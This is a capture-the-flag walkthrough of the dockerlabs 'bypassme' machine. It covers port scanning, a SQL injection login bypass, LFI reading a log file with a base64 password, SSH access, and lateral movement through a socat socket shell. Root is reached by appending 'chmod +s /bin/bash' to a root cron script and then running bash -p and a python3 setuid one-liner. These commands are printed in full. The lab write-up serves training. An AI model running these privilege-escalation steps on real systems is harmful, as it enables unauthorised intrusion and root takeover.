



# bypassme

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| bypassme | RSA | Easy / Facil | dockerlabs |

**Summary:** The bypassme machine presents a multi-stage exploitation chain rooted in a vulnerable PHP login panel susceptible to SQL injection on the password parameter. By crafting a malicious payload, an attacker bypasses authentication entirely and lands inside an authenticated session. Once authenticated, a directory traversal combined with a Local File Inclusion vulnerability in the `page` GET parameter allows reading a sensitive log file (`/logs/logs.txt`) exposed within the web root. This log file leaks Base64-encoded credentials belonging to the user `albert`, whose password decodes trivially. SSH access as `albert` is then obtained. Internal enumeration reveals a second user `conx` whose home directory is execute-accessible to the `albert` group, and a world-readable script at `/var/backups/backup.sh` owned by `conx`. A process inspection shows `conx` is running a `socat` UNIX socket listener backed by `/bin/bash`, allowing lateral movement into `conx` context through a simple socket connection. Examining `/etc/cron.d` reveals that `root` executes `backup.sh` every minute via cron. Because `backup.sh` is group-writable and `albert` is in the group, an attacker appends `chmod +s /bin/bash` to the script, waits one minute for cron to trigger execution as root, and then calls `/bin/bash -p` to obtain an effective UID/GID of root. A final `python3` one-liner drops all supplementary groups to produce a clean `uid=0(root)` shell, completing full root compromise.

---

## Reconnaissance

**1. Deploying the Machine**

The lab environment is started using the provided deployment script.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bypassme]
└─$ sudo bash auto_deploy.sh bypassme.tar 
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""""\___ / ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

The machine is assigned the IP address `172.17.0.2`.

**2. Port Scan**

A comprehensive Nmap scan is launched against all ports to identify running services and their versions.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bypassme]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-25 18:05 WIBNmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b4:a8:42:e7:2b:2f:7a:f9:50:bd:6d:31:8e:36:54:7b (ECDSA)
|_  256 c0:ff:28:31:a3:0b:1a:3d:c3:5f:83:1b:3c:44:28:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login Panel
|_Requested resource was login.php
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.30 seconds
```

Two ports are open: port 22 (SSH, OpenSSH 9.6p1) and port 80 (HTTP, Apache 2.4.58). The web service immediately redirects to `login.php`, indicating a login panel is the entry point.

**3. Web Content Discovery**

Feroxbuster is used to enumerate files and directories on the web server, targeting a broad set of extensions.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bypassme]
└─$ feroxbuster -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,txt,json,js,bak,sql,zip,tar,env
                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2/
 🚩  In-Scope Url          │ 172.17.0.2
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt, json, js, bak, sql, zip, tar, env]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://172.17.0.2/ => login.php
302      GET        0l        0w        0c http://172.17.0.2/index.php => login.php
200      GET       72l      132w     1826c http://172.17.0.2/login.php
302      GET        0l        0w        0c http://172.17.0.2/welcome.php => index.php
[####################] - 5m   2425995/2425995 0s      found:4       errors:0      
[####################] - 5m   2425995/2425995 8026/s  http://172.17.0.2/
```

The scan reveals that `login.php` is the only publicly accessible page; all other pages redirect back to the login panel when unauthenticated.

---

## Initial Access

### SQL Injection on the Login Panel

After several attempts testing different input fields, it is determined that the `password` parameter is injectable. A SQL injection payload is crafted to bypass the authentication logic entirely.



The injection succeeds and authentication is bypassed, granting access to the internal dashboard.



Once inside, a note is discovered on the dashboard that hints at the existence of a sensitive file.



### Post-Authentication Directory Enumeration

With the authenticated session cookie in hand, a second directory brute-force is conducted using `ffuf` to discover any content accessible only to logged-in users.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bypassme]
└─$ ffuf -u http://172.17.0.2/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -b "PHPSESSID=tf47lj2fe4b57qv05utoi3t492" -fc 404 -t 50 -ic    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Header           : Cookie: PHPSESSID=tf47lj2fe4b57qv05utoi3t492
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

                        [Status: 200, Size: 1332, Words: 401, Lines: 57, Duration: 13ms]
logs                    [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 5ms]
                        [Status: 200, Size: 1332, Words: 401, Lines: 57, Duration: 11ms]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 2ms]
:: Progress: [220546/220546] :: Job [1/1] :: 10000 req/sec :: Duration: [0:00:22] :: Errors: 0 ::
```

A `logs` directory is found, returning a 403 when accessed directly. However, combining this finding with the note about a `logs.txt` file and the presence of a `page` GET parameter in the dashboard, a Local File Inclusion (LFI) is attempted to read the log file directly.

### Credential Leakage via LFI

A `curl` request is made using the `page` parameter to include the log file contents within the response.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bypassme]
└─$ curl -i -b "PHPSESSID=tf47lj2fe4b57qv05utoi3t492" http://172.17.0.2/?page=/logs/logs.txt
HTTP/1.1 200 OK
Date: Sat, 25 Jul 2026 12:04:50 GMT
Server: Apache/2.4.58 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1639
Content-Type: text/html; charset=UTF-8

[2024-03-29 12:04:12] ERROR: Login failed for user 'root'
[2024-03-29 12:04:12] DEBUG: Trying password 'YWRtaW4xMjM='
[2024-03-29 12:04:13] ERROR: Login failed for user 'admin'
[2024-03-29 12:04:14] DEBUG: Trying password 'dGVzdDEyMw=='
[2024-03-29 12:04:16] ERROR: Login failed for user 'test'
[2024-03-29 12:04:18] DEBUG: Login failed from IP 10.10.14.8
[2024-03-29 12:04:19] DEBUG: Login failed from IP 10.10.14.9
[2024-03-29 12:04:20] DEBUG: Login failed from IP 10.10.14.10
[2024-03-29 12:04:21] DEBUG: Login failed from IP 10.10.14.11
[2024-03-29 12:04:22] WARNING: Too many login attempts
[2024-03-29 12:04:23] ERROR: Login attempt for user 'albert'
[2024-03-29 12:04:24] DEBUG: Trying password 'NGxiM3J0MTIz'
[2024-03-29 12:04:25] SUCCESS: Auth success for user 'albert'
[2024-03-29 12:04:26] DEBUG: Session token issued: 38b2fdcbffe78b9989f3e
[2024-03-29 12:04:27] DEBUG: SSH connection established from 10.10.14.8
[2024-03-29 12:04:28] DEBUG: User 'albert' added to sudo group
[2024-03-29 12:04:29] DEBUG: File accessed: /var/www/html/index.php?page=welcome
[2024-03-29 12:04:30] DEBUG: File accessed: /etc/passwd
[2024-03-29 12:04:31] DEBUG: File accessed: /var/log/auth.log
[2024-03-29 12:04:32] DEBUG: File accessed: /var/www/html/login.php
[2024-03-29 12:04:33] DEBUG: File accessed: /var/www/html/logs/logs.txt
[2024-03-29 12:04:34] WARNING: Potential exposure of file logs.txt
[2024-03-29 12:04:35] WARNING: logs.txt contains sensitive authentication data
[2024-03-29 12:04:36] [!!!] SECURITY ALERT: logs/logs.txt is PUBLICLY EXPOSED
[2024-03-29 12:04:37] [!!!] Use this file with caution credentials may be compromised
```

The log file contains a DEBUG entry: `Trying password 'NGxiM3J0MTIz'` for user `albert`, immediately followed by a `SUCCESS` entry. The password is Base64-encoded. Decoding `NGxiM3J0MTIz` yields `4lb3rt123`, which is `albert`'s SSH password.

### SSH Access as albert

Using the recovered credentials, SSH access is obtained as `albert`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bypassme]
└─$ ssh albert@$ip
albert@172.17.0.2's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.18.33.2-microsoft-standard-WSL2 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu May 22 13:43:28 2025 from 172.17.0.1
albert@884b8dec041c:~$ id;whoami;hostname
uid=1001(albert) gid=1001(albert) groups=1001(albert)
albert
884b8dec041c
albert@884b8dec041c:~$ ls -la
total 32
drwxr-x--- 3 albert albert 4096 May 22  2025 .
drwxr-xr-x 1 root   root   4096 May 21  2025 ..
-rw------- 1 albert albert    5 May 22  2025 .bash_history
-rw-r--r-- 1 albert albert  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 albert albert 3771 Mar 31  2024 .bashrc
drwx------ 2 albert albert 4096 May 21  2025 .cache
-rw-r--r-- 1 albert albert  807 Mar 31  2024 .profile
```

A foothold is established as `albert`. The home directory contains no user-specific flags or useful files, so enumeration continues.

---

## Privilege Escalation

### Lateral Movement: albert to conx

Listing `/home` reveals a second user named `conx`. Notably, the `conx` home directory has execute permission for the `albert` group, suggesting group-based access may be useful.

```bash
albert@884b8dec041c:~$ ls -la /home
total 24
drwxr-xr-x 1 root   root   4096 May 21  2025 .
drwxr-xr-x 1 root   root   4096 Jul 25 05:00 ..
drwxr-x--- 3 albert albert 4096 May 22  2025 albert
drwx--x--- 1 conx   albert 4096 May 22  2025 conx
```

A search for files owned by `conx` that are readable by the current user surfaces an interesting backup script.

```bash
albert@884b8dec041c:~$ find / -user conx -type f -readable 2>/dev/null
/proc/55/task/55/status
/proc/55/task/55/status
/proc/55/task/55/limits
/proc/55/task/55/sched
/proc/55/task/55/comm
/proc/55/task/55/cmdline
/proc/55/task/55/stat
/proc/55/task/55/statm
/proc/55/task/55/maps
...
/var/backups/backup.sh
albert@884b8dec041c:~$ cat /var/backups/backup.sh 
#!/bin/bash

SRC="/home/conx"
DEST="/var/lib/.snapshots/backup.tar.gz"

echo "[*] Starting backup..."
tar -czf "$DEST" "$SRC" >/dev/null 2>&1
echo "[*] Backup completed at $(date)"

# Dev note: eval $HOOK was added for future hooks
eval "$HOOK"

albert@884b8dec041c:~$ ls -la /var/backups/backup.sh 
-rw-rw-r-- 1 conx root 246 May 22  2025 /var/backups/backup.sh
```

The script is owned by `conx` but is group-writable (group `root`). It also contains `eval "$HOOK"`, an uncontrolled code execution hook. More importantly, the `find` output shows PID 55 is owned by `conx`. Reading its command line reveals a `socat` UNIX socket listener.

```bash
albert@884b8dec041c:~$ cat /proc/55/cmdline | tr '\0' ' '; echo
socat UNIX-LISTEN:/home/conx/.cache/.sock,fork EXEC:/bin/bash 
albert@884b8dec041c:~$ which socat
/usr/bin/socat
```

The `socat` process is listening on a UNIX socket at `/home/conx/.cache/.sock` and executes `/bin/bash` for each connection, running as `conx`. Since `albert` has execute permission on the `conx` home directory, it can reach the socket.

```bash
albert@884b8dec041c:~$ socat UNIX-CONNECT:/home/conx/.cache/.sock -
id
uid=1002(conx) gid=1002(conx) groups=1002(conx)
```

A shell as `conx` is obtained. This shell is now used to investigate privilege escalation to root.

### Privilege Escalation: conx to root via Cron and SUID Bash

Checking the cron configuration confirms that root runs `backup.sh` every single minute.

```bash
cat /etc/cron.d/backup-cron
* * * * * root bash /var/backups/backup.sh
```

The current permissions on `/bin/bash` are verified before making any modifications.

```bash
ls -la /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Since the `backup.sh` script is group-writable and the `conx` user owns it, a line is appended that will set the SUID bit on `/bin/bash` when root executes the cron job.

```bash
echo 'chmod +s /bin/bash' >> /var/backups/backup.sh
```

The modified script is confirmed:

```bash
cat /var/backups/backup.sh
#!/bin/bash

SRC="/home/conx"
DEST="/var/lib/.snapshots/backup.tar.gz"

echo "[*] Starting backup..."
tar -czf "$DEST" "$SRC" >/dev/null 2>&1
echo "[*] Backup completed at $(date)"

# Dev note: eval $HOOK was added for future hooks
eval "$HOOK"

chmod +s /bin/bash
```

After waiting approximately one minute for the cron job to fire, the permissions on `/bin/bash` are verified again.

```bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Both the SUID and SGID bits are now set. Invoking `/bin/bash -p` preserves the effective UID of the owner (root) without dropping privileges.

```bash
/bin/bash -p
id
uid=1002(conx) gid=1002(conx) euid=0(root) egid=0(root) groups=0(root),1002(conx)
```

An effective root shell is obtained. To achieve a clean `uid=0` shell without relying on supplementary group context, Python 3 is used to drop all group identities and execute a fresh `/bin/bash` process.

```bash
which python3
/usr/bin/python3
```

```bash
python3 -c 'import os; os.setgid(0); os.setuid(0); os.system("/bin/bash")'
```

```bash
id
uid=0(root) gid=0(root) groups=0(root),1002(conx)
su -
id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
884b8dec041c
```

Full root access is achieved.

---

## Attack Chain Summary
1. **Reconnaissance**: An Nmap scan identifies two open ports: SSH on port 22 and an Apache web server on port 80 hosting a PHP login panel. Feroxbuster reveals that `login.php` is the only publicly accessible endpoint.
2. **Vulnerability Discovery**: Manual testing of the login form identifies that the `password` parameter is vulnerable to SQL injection. A crafted payload bypasses authentication and grants access to the internal dashboard along with a valid `PHPSESSID` cookie.
3. **Exploitation**: Post-authentication enumeration with `ffuf` uncovers a `logs` directory returning a 403. Combining this with a `page` GET parameter observed in the authenticated dashboard, an LFI payload (`?page=/logs/logs.txt`) reads the sensitive log file, which contains a Base64-encoded password for the system user `albert`. Decoding the credential enables SSH login.
4. **Internal Enumeration**: As `albert`, listing `/home` reveals a second user `conx` with a group-accessible home directory. A `find` command surfaces `/var/backups/backup.sh` (owned by `conx`, group-writable) and identifies PID 55 as a `socat` UNIX socket process running as `conx`. Connecting to the socket yields a shell as `conx`.
5. **Privilege Escalation**: Reading `/etc/cron.d/backup-cron` confirms that root executes `backup.sh` every minute. Because the script is writable as `conx`, the line `chmod +s /bin/bash` is appended. After cron fires, `/bin/bash` gains the SUID bit. Invoking `/bin/bash -p` produces an effective root shell, and a Python 3 one-liner solidifies the session into a full `uid=0(root)` shell.
